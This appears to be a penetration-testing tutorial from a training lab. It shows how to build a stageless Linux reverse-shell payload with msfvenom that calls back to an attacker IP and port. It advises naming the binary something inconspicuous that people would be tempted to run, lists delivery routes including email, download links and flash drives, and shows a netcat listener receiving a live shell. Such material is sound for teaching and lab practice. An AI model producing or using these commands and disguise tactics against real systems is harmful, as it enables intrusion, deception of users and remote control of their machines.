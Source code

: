 # Crafting Payloads with MSFvenom
## Staged vs. Stageless Payloads
- **Staged** payloads create a way for us to send over more components of our attack. We can think of it like we are "setting the stage" for something even more useful. Take for example this payload `linux/x86/shell/reverse_tcp`. When run using an exploit module in Metasploit, this payload will send a small stage that will be executed on the target and then call back to the attack box to download the remainder of the payload over the network, then executes the shellcode to establish a reverse shell. 
- **Stageless** payloads do not have a stage. Take for example this payload linux/zarch/meterpreter_reverse_tcp. Using an exploit module in Metasploit, this payload will be sent in its entirety across a network connection without a stage. 
- The name will give you your first marker. Take our examples from above, `linux/x86/shell/reverse_tcp` is a staged payload, and we can tell from the name since each `/` in its name represents a stage from the shell forward. So `/shell/` is a stage to send, and `/reverse_tcp` is another. This will look like it is all pressed together for a stageless payload. Take our example `linux/zarch/meterpreter_reverse_tcp`. It is similar to the staged payload except that it specifies the architecture it affects, then it has the shell payload and network communications all within the same function `/meterpreter_reverse_tcp`. 

## Building A Stageless Payload
```
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
```
- `-p`: Indicates that msfvenom is creating a payload.
- `linux/x64/shell_reverse_tcp`: Specifies a Linux 64-bit stageless payload that will initiate a TCP-based reverse shell (shell_reverse_tcp).
- `LHOST=10.10.14.113 LPORT=443`: When executed, the payload will call back to the specified IP address (`10.10.14.113`) on the specified port (`443`).
- `-f elf`: Specifies the format the generated binary will be in. In this case, it will be an `.elf` file.
- `> createbackup.elf`: Creates the `.elf` binary and names the file createbackup. We can name this file whatever we want. Ideally, we would call it something inconspicuous and/or something someone would be tempted to download and execute.

## Executing a Stageless Payload
At this point, we have the payload created on our attack box. We would now need to develop a way to get that payload onto the target system:
- Email message.
- Download link on a website.
- Combined with Metasploit module.
- Via flash drive as part of an onsite penetration test.

Once the file is on that system, it will also need to be executed.

Once executed, we would need a listener ready to catch the connection on the attack box side upon successful execution:
```
$ sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.138.85 60892
env
PWD=/home/htb-student/Downloads
cd ..
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos
```